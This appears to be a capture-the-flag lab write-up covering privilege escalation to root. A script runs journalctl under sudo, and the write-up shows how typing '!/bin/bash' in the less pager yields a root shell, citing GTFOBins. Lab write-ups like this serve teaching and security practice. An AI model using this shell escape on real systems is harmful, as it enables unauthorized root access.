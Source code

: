 # Privilege Escalation to root
## Found server-stats.sh in user david bin directory
Found `server-stats.sh` in user `david` `bin` directory which had following contents
```bash
$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
This script is running `journalctl` as sudo and printing first five lines of `unostromo.service` log . 
So executing `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` command will open it in `less` command according to [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) in small terminal less than 5 rows like below
![[Pasted image 20210710144055.png]] 
Now  typing `!/bin/bash` in less mode will open bash as root like below.
![[Pasted image 20210710144230.png]]
![[Pasted image 20210710144300.png]]
![[Pasted image 20210710144356.png]]


